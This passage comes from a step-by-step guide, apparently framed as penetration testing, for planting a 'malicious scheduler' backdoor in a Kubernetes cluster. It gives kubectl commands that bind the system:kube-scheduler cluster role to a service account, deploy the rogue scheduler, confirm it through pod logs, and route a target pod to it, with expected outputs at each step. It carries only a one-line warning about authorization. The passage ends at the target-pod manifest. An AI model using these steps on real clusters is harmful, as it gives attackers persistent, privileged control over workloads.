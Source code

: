     *   **Explanation:** Creates a service account and binds the `system:kube-scheduler` cluster role to it, granting the service account necessary privileges to act as a scheduler.
    *   **Why:** Grants the service account the necessary permissions to function as a scheduler.  **This is extremely dangerous if not properly authorized and should only be done for a controlled penetration test.**
    *   **Expected Output:** Creation of the service account and cluster role binding.
    *   **Contributes to Validation:** Enables the malicious scheduler to function properly.

3.  **Apply the Deployment and Service Account/RoleBinding Manifests:**

    ```bash
    kubectl apply -f malicious-scheduler-sa.yaml
    kubectl apply -f scheduler-deployment.yaml
    ```

    *   **Explanation:** This command deploys the custom scheduler based on the YAML manifest created in the previous step.
    *   **Why:**  This action actually deploys the malicious scheduler into the cluster.
    *   **Expected Output:** "deployment.apps/malicious-scheduler created", "serviceaccount/malicious-scheduler-sa created", "clusterrolebinding.rbac.authorization.k8s.io/malicious-scheduler-binding created".
    *   **Contributes to Validation:** This successfully deploys the backdoor scheduler.

4.  **Verify the Malicious Scheduler is Running:**

    ```bash
    kubectl get pods -n kube-system | grep malicious-scheduler
    kubectl logs -n kube-system $(kubectl get pods -n kube-system | grep malicious-scheduler | awk '{print $1}')
    ```

    *   **Explanation:**  This command first lists pods in the `kube-system` namespace, filtering for the malicious scheduler.  Then, it retrieves the logs of the malicious scheduler pod.
    *   **Why:** To confirm that the scheduler is running and to check its logs for activity.
    *   **Expected Output:** The first command will list the malicious scheduler pod. The second command will output logs. The logs should show the scheduler starting up.
    *   **Contributes to Validation:** Confirms that the scheduler is successfully deployed and running.

5.  **Create a Pod that Targets the Malicious Scheduler (target-pod.yaml):**

    ```yaml
    apiVersion: v1
    kind: Pod
    metadata:
      name: target-pod
      labels:
        app: target-app
    spec:
      schedulerName: malicious-scheduler
      containers:
      - name: target-container
        image: nginx:latest
    ```
